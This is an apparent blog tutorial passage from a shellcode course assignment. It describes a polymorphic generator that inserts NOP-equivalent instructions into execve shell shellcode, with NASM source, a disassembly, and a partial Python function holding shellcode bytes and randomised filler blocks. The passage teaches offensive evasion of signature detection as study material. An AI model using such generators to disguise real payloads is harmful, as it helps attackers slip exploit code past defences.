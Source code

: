 The third strategy I want to use in my exec shell shellcode polymorphic
generator, is to add some NOP equivalent operations.

The lesson learnt in the previous NOP dope chapter is that I have to deal
carefully with JMP and CALL offset tuning.


{% highlight asm %}
 % cat nop_equivalent.nasm
global _start

section .text

_start:
	nop
	cmp eax, 0x0
	cmp ebx, 0x0
	cmp ecx, 0x0
	xchg eax, eax
	xchg ebx, ebx
	xchg ecx, ecx

 % objdump -d nop_equivalent

nop_equivalent:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	90                   	nop
 8048081:	83 f8 00             	cmp    $0x0,%eax
 8048084:	83 fb 00             	cmp    $0x0,%ebx
 8048087:	83 f9 00             	cmp    $0x0,%ecx
 804808a:	90                   	nop
 804808b:	87 db                	xchg   %ebx,%ebx
 804808d:	87 c9                	xchg   %ecx,%ecx

{% endhighlight %}

Please note how the opcode is xchg eax, eax is 0x90 like NOP. I choose not to
use PUSH and POP instructions, because not to mess it up with legal push and
pop I executed in the shellcode. Of course, it is possible to inject stack
operations preserving the ones we need to do, however I want to make it simple
just to show this assignment solution.

{%highlight python%}

def byte_len(array_string):
    return "".join(array_string).count("\\x")

...

def kill_nop_super_dope():

    init_blk =["\\x6a\\x0b\\x58", "\\x31\\xc9", "\\x31\\xd2"];
    setup_blk=["\\x5b" ];

    nop_blk=["\\x90", "\\x83\\xf8\\x$$", "\\x83\\xfb\\x??", "\\x83\\xf9\\x%%", "\\x87\\xdb", "\\x87\\xc9"]

    shuffle(nop_blk)
    n = randint(0, 10);
    init_nop_blk = nop_blk[0:(n/3)]
    shuffle(nop_blk)
    setup_nop_blk = nop_blk[0:(n*2/3)]


    init_blk.extend(init_nop_blk)

    print init_nop_blk
    print init_blk

    setup_blk.extend(setup_nop_blk)